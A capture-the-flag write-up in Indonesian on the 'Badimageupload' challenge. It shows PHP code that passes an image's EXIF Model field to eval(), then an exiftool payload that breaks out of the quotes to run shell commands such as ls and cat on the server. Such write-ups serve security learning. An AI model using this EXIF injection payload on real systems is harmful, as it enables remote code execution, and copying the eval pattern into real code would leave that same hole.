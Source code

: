 # Write up 

## Task detail

Main main yuk
http://128.199.226.249/eat/

Source:
https://github.com/nikkoenggaliano/Badimageupload



## Problem

Diberikan sebuah halaman web dengan tampilan seperti ini.



![Index.php](\Badimageupload\src\1.png)



Seperti upload file gambar biasa dengan validasi yang hanya membolehkan mengupload file dengan exstensi [jpg, jpeg] Menurut source `index.php` yang diberikan sebagai berikut.



```php
$allowed = array('jpg', 'jpeg');
$path = pathinfo($_FILES['flag']['name']);
$ext = strtolower($path['extension']);
		
//verify ext
if(!in_array($ext, $allowed)){
	die('Just allowed jpg/jpeg');
}
```



Validasi yang lain hanya mengecek besar file yang tidak boleh lebih dari 2Mb dan gambar yang diupload harus memiliki lebar dan tinggi.



```php
//verify size
if($_FILES['flag']['size'] > 2000000){
	die('Sorry just allowed less than 2 Mb');
}

//verify image
$data = getimagesize(realpath($_FILES['flag']['tmp_name']));
$width = $data[0];
$height = $data[1];
if(empty($width) || empty($height)){
    die('Please upload image!');
}
```



Oke secara simple hanya boleh mengupload gambar asli. Mari kita coba.



![](\Badimageupload\src\2.png)



Setelah mengupload gambar yang kita upload akan di tampilkan lagi dengan keterangan `waktu` `height` dan `width` 

Mari lihat ke source `render.php` 



```php
$read = exif_read_data($nama);	
if(isset($read['Model'])){
	$model .= (string) $read['Model'];	
}else{
	$model .= "Hacker";
}
$height = $read['COMPUTED']['Height'];
$width = $read['COMPUTED']['Width'];
$epoch = date('Y-M-D H:i:s',$read['FileDateTime']);
}

```



Oke pada variable `$read` memangil fungsi read exif data, Kemudian ada sebuah pengecekan apakah ada exif data model jika tidak akan diisi dengan `Hacker` Selanjutnya hanya memparsing exif `waktu` `height` dan `width`. 



## Bugs

Pada proses pemanggilan variable hasil exif ada yang paling menarik sebagai berikut.



```php+HTML
<h4 class="media-heading"> Hey <?php echo(eval("print '$model';")) ?></h4>
```



Variable `$model` di print menggunakan `eval()` Hmm, Meskipun `eval` dapat diisi dengan hal hal seperti fungsi php atau shell ada yang menyebabkan sedikit tricky untuk menginjectnya. Karena didalam eval terdapat kutip yang cukup tricky juga.



## Exploitasion

Sebelum memikirkan bagaimana menginject kodenya kedalam gambar, Mari kita experimen dulu bagaimana menginject payload kedalam eval tersebut.



```php
<?php 
$model = "shell_exec('whoami')";
echo(eval("print '$model';"));
```



Asusmsi saya dengan seperti itu bisa tereksekusi. Ternyata tidakkk!  Dan payload yang saya rancang akhirnya bentuknya seperti ini.=

`';echo shell_exec('whoami');//` Oke sedikit saya explain.



1. Kutip dan semicolon `';`  diawal akan membuat kode berbentuk menjadi seperti ini
   -  echo(eval("print ''; ")) ;
2.  echo shell_exec('whoami'); akan menjadi syntax baru di dalam eval menjadi seperti ini
   - echo(eval("print ''; echo shell_exec('whoami'); ")) ;
3.  // pada akhir akan membuat syntax kebelakan menjadi comenting atau tidak dianggap
   - echo(eval("print ''; echo shell_exec('whoami');// ")); 



## Development the payload 

Kita bisa mengisi exif data dengan tools exiftools di unix kalian bisa menginstall dengan `sudo apt install libimage-exiftool-perl`



Selanjutnya mengisi gambar dengan payload.



```bash
$ exiftool -model="';echo shell_exec('ls');//" 851368_1.jpg
    1 image files updated
$
```



Kita mengisi data model dengan payload `ls` dan hasilnya.



![](\Badimageupload\src\3.png)



Okey terlihat setelah `Hey` ada file file, Yang paling menarik adalah `wwwwwwwwrite.php ` mari kita dapatkan sourcenya.



```bash
$ exiftool -model="';echo shell_exec('cat wwwwwwwwrite.php ');/
/" 851368_1.jpg
    1 image files updated
$
```



Dan didapatkan hasil sebagai berikut.



```php
<?php 
$data = $_GET['hack'];
$buka = fopen("solver.txt", "a+");
fwrite($buka, $data."\n");
fclose($buka);
?>
```



Ternyata pada file ini kita bisa menuliskan nama kita :D 



```sh
$ curl 128.199.226.249/wwwwwwwwrite.php?hack=Nepska
```



Terima Kasih!